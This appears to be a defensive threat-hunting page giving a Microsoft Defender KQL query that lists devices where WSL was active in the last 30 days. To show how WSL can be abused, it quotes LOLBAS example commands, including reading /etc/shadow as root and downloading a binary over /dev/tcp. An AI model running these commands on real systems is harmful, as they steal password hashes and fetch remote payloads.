 # List devices that have WSL installed

## Query Information

#### Description
Windows Subsystem for Linux may be used by adversaries to perform actions as root, or to download files. This query lists all devices that have WSL installed and it was active in the last 30 days. This may give an indidcation about the usage in your environment. Microsoft recommends listing WSL, if there is no scenario you explicitly require them. WSL Should be installed in the folder: C:\Windows\System32\wsl.exe. From the Lolbas project some suspicious queries that can be executed by WSL are:

```
wsl.exe -u root -e cat /etc/shadow

wsl.exe --system calc.exe

wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```


#### References
- https://learn.microsoft.com/en-us/windows/wsl/
- https://lolbas-project.github.io/lolbas/OtherMSBinaries/Wsl/
- https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules

## Defender For Endpoint
```
let WSLDevices = DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName == "wsl.exe"
| distinct DeviceId;
DeviceInfo
| where DeviceId in (WSLDevices)
| summarize arg_max(Timestamp, *) by DeviceId
```